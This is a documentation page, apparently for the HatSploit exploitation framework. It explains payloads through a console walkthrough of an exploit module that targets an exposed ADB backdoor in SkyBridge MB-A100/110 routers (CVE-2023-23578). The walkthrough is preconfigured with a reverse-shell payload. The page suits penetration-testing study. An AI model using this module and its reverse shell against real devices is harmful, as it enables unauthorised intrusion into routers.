 ```yaml
---
layout: default
title: HatSploit Payloads
parent: Getting started
nav_order: 6
---
```


## About payloads

HatSploit payloads are sent to the target after successful exploitation of vulnerability by module.

They can differ, from platform and style to architecture and execution.

## Using payloads

To use a specific payload, you should first select the module that supports payload execution.

Let's take `exploit/linux/skybridge/100_110_code_execution` module that exploits the built-in backdoor in several routers and attempts to gain code execution.

```hsf
[hsf3]> search skybridge

Modules:

    Number    Category    Module                                                    Rank    Name
    0         exploit     exploit/linux/skybridge/100_110_code_execution            high    SkyBridge MB-A100/110 Remote Code Execution
    1         exploit     exploit/linux/skybridge/100_110_credentials_disclosure    high    SkyBridge MB-A100/110 Credentials Disclosure

[hsf3]> use 0
[*] Using default payload linux/armle/shell_reverse_tcp...
[hsf3: SkyBridge MB-A100/110 Remote Code Execution]> options

Module Options (exploit/linux/skybridge/100_110_code_execution):

    Option     Value                            Required    Description
    HOST                                        yes         SkyBridge host.
    LHOST      10.39.23.43                      yes         Local host.
    LPORT      8888                             yes         Local port.
    PAYLOAD    linux/armle/shell_reverse_tcp    yes         Payload to use.
    TIMEOUT    10                               no          Connection timeout.


Payload Options (linux/armle/shell_reverse_tcp):

    Option     Value          Required    Description
    ENCODER                   no          Encoder to use.
    RHOST      10.39.23.43    yes         Remote host.
    RPORT      8888           yes         Remote port.
```

As you can see, we already have a payload preconfigured for us to use on an exploited system. You can invoke `info` command to find more information about the effects of the module.

```hsf
[hsf3: SkyBridge MB-A100/110 Remote Code Execution]> info

    Name: SkyBridge MB-A100/110 Remote Code Execution
  Module: exploit/linux/skybridge/100_110_code_execution
Platform: linux
    Rank: high

Authors:
  Ivan Nikolskiy (enty8080) - module developer

Description:
  SkyBridge MB-A100/110 firmware <= 4.2.0 has an Android Debug Bridge
  service exposed allowing attacker to execute arbitrary commands.
  Sessions generated by this module are weak due to that ADB sometimes
  fails to execute payload in background and when ADB session is
  closed all sessions are closed too. Session will stay alive as long
  as auto-interaction is turned on.

References:
  URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-23578
  URL: https://www.seiko-sol.co.jp/products/skybridge/skybridge_download/mb-a100/
  CVE: 2023-23578

Devices:
  SkyBridge MB-A100 - firmware <= 4.2.0
  SkyBridge MB-A110 - firmware <= 4.2.0

Stability:
  Module does not crash target

Reliability:
  Module spawns weak (unstable) session
```